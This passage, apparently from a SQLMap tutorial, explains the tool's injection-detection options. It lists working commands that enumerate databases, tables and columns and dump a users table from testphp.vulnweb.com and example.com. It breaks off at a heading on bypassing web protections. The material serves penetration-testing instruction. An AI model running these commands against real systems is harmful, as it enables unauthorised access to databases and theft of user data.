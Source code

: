 #### Status code.
  
The `--code` parameter in SQLMap is used to specify the HTTP status code that SQLMap should consider as confirmation of a successful injection attempt.(By default status code 200 and 302 consider as successful injection confirmation)

For example, if the web application returns a status code of 500 (Internal Server Error) upon successful injection, you can specify `--code=500` to instruct SQLMap to consider this status code as confirmation of a successful injection attempt.

`sqlmap -u http://example.com/login.php --data "username=test&password=test" --code=500`

#### Titles

If the difference between responses can be seen by inspecting the HTTP page titles. we can use `--titles` parameter.

#### Strings

In case of a specific string value appearing in `TRUE` responses (e.g. `success`), while absent in `FALSE` responses, the option `--string` could be used to fixate the detection based only on the appearance of that single value (e.g. `--string=success`).

#### Text-only

The `--text-only` switch in SQLMap is used to specify that the output generated during the scanning process should be limited to text-only format. This means that any HTML formatting or other non-textual elements will be stripped from the output, making it easier to read and parse.

`sqlmap -u http://example.com/vulnerable_page.php --text-only`

## Enum the database

1. Fetch database name.
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch`

2. Enum database and find out tables
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch`
-D : Database name.

3. Enum columns from tables.
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch`
-T : DBMS table to enum.

4. Get data from the table
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch`

5. Dump all
`sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch`

6. DB Schema Enum
`sqlmap -u "http://www.example.com/?id=1" --schema` 
Retrieve the structure of all of the tables.


## Bypassing Web Application Protections
